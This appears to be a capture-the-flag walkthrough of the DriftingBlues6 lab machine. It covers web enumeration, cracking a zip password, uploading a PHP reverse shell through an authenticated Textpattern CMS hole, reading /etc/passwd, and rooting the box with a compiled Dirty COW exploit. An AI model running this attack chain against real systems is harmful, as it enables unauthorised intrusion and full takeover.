






Scanning the network with nmap, there's just one port open:

```bashPORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: driftingblues
```

Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/01 13:34:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/index.html           (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.122.219/textpattern/]
Progress: 4579 / 4615 (99.22%)===============================================================
```

Check out `robots.txt` :

```bash
$ curl -s http://192.168.122.219/robots.txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

With the hint in mind, fuzz with `.zip` extension:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x zip
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              zip
[+] Timeout:                 10s
===============================================================
2023/03/01 13:38:23 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/spammer.zip          (Status: 200) [Size: 179]
```

Download `spammer.zip` and check what's inside:

```bash
$ unzip -l spammer.zip
Archive:  spammer.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2021-03-15 21:46   creds.txt
---------                     -------
       15                     1 file
```

That looks promising. Open it:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

It's password protected. Get the hash with zip2john, then crack using rockyou.txt:

```bash
$ zip2john spammer.zip > spammer.hash
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spammer.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2023-03-01 13:41) 100.0g/s 2048Kp/s 2048Kc/s 2048KC/s christal..michelle4
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Unzip the contents and read them:

```bash
$ cat creds.txt
mayer:lionheart 
```

Now I have creds to something.
I check out the /textpattern/textpattern endpoint. I get a login screen:



I use these creds and now have admin privileges over this CMS. In the corner, I can see the version:



It's Textpattern CMS (v4.8.3). I check searchsploit and find this version is vulnerable:

```bash
$ searchsploit textpattern 4.8
-----------------------------------
 Exploit Title |  Path
-----------------------------------
Textpattern 4.8.3 - Remote code execution (Authenticated)(2)                   | php/webapps/49620.py
TextPattern CMS 4.8.3 - Remote Code Execution (Authenticated)                  | php/webapps/48943.py
Textpattern CMS 4.8.4 - 'Comments' Persistent Cross-Site Scripting (XSS)       | php/webapps/49616.txt
TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)               | php/webapps/49996.txt
TextPattern CMS 4.8.7 - Remote Command Execution (RCE) (Authenticated)         | php/webapps/50415.txt
TextPattern CMS 4.8.7 - Stored Cross-Site Scripting (XSS)                      | php/webapps/49975.txt
-----------------------------------
Shellcodes: No Results
Papers: No Results
```

I examined some of the RCE exploits. They just involve uploading a file and then calling it from the `/files` endpoint. So I can just upload a php reverse shell (like this [one](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) ) and then execute it to get a shell:



After I upload my shell, I set up a listener and then fetch the webpage here:

http://192.168.122.219/textpattern/files/revshell.php

I get a shell as www-data:



```bash
www-data@driftingblues:/home$ whwhoami
www-data
www-data@driftingblues:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@driftingblues:/home$ hostname
driftingblues
www-data@driftingblues:/home$ hostname -I
192.168.122.219
```

`local.txt` is not here and there are no users in the `/home` directory. I checked the contents of `/etc/passwd` to see who is on here:

```bash
www-data@driftingblues:/opt$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

Just service accounts. I run linpeas and look for a kernel exploit.  is the first choice.
I bring it onto the machine, compile it and then run it:

```bash
www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f5fab02f000
```


The shell halts at this point, which is expected behavior. I fetch the webpage again and get another shell. I switch users to the (hopefully) added user with root privileges. It works, and I collect the only flag here, `proof.txt`:

```bash
www-data@driftingblues:/$ su firefart
Password: password

firefart@driftingblues:/# cd /root
firefart@driftingblues:~# ls -la
total 20
drwx------  3 firefart root 4096 Mar  1 12:32 .
drwxr-xr-x 23 firefart root 4096 Mar 17  2021 ..
drwx------  2 firefart root 4096 Mar 17  2021 .aptitude
-rw-------  1 firefart root  607 Aug  9  2022 .bash_history
-rw-r--r--  1 firefart root   33 Mar  1 12:32 proof.txt
firefart@driftingblues:~# cat proof.txt
6f52f239d99ec0d454add1664360bd42
firefart@driftingblues:~# whoami
firefart
firefart@driftingblues:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:~# hostname
driftingblues
firefart@driftingblues:~# hostnam e-I
bash: hostnam: command not found
firefart@driftingblues:~# hostname -I
192.168.122.219
```



